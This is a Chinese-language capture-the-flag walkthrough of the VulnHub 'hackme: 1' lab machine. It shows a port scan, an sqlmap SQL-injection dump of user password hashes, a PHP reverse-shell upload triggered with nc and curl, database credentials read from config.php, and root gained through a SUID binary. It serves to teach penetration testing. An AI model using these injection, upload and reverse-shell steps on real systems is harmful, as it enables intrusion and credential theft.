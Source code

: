 # hackme: 1

2025.02.27 https://www.vulnhub.com/entry/hackme-1,330/

这个靶机使用 virtualbox 导入有问题，使用 vmware 可以导入。

[video](https://www.bilibili.com/video/BV13B9wYPEQ8/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.10.152

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页直接跳转到 http://192.168.10.152/login.php 目前没有用户名和密码。

目录扫描发现http://192.168.10.152/uploads/ 里面有个 test.png 图片，图片没隐写。

到注册页面先注册个用户 http://192.168.10.152/register.php 进入到系统后是一个查询功能，可能存在 SQL 注入，将请求数据包保存到 txt 中，然后使用 sqlmap 跑出数据：

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

sqlmap -r req.txt --batch -D webapphacking -T users --dump

+----+--------------+------------+----------------+---------------------------------------------+
| id | name         | user       | address        | pasword                                     |
+----+--------------+------------+----------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983            | --> Uncrackable
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | testtest     | testtest   | testtest       | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
+----+--------------+------------+----------------+---------------------------------------------+
```

superadmin 的密码在线找到为 Uncrackable ，先用一下这个用户进行登陆，看看有哪些特殊权限，发现登陆后能够上传文件，直接上传 php shell 没有被拦截，并且可以在 http://192.168.10.152/uploads/ 中看到，直接访问，把 shell 反弹的 kali 上：

```
nc -lvnp 8888
curl http://192.168.10.152/uploads/8888.php
```

得到反弹的 shell，/var/www/html 中读取到 config.php 中的数据库配置信息：

```
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'hackme1qaz@WSX');
define('DB_NAME', 'webapphacking');
```

同时发现 1 个用户 hackme，但是上面这个数据库的连接密码不是这个用户的。

发现 suid 程序 /home/legacy/touchmenot，运行后直接得到了 root 权限。
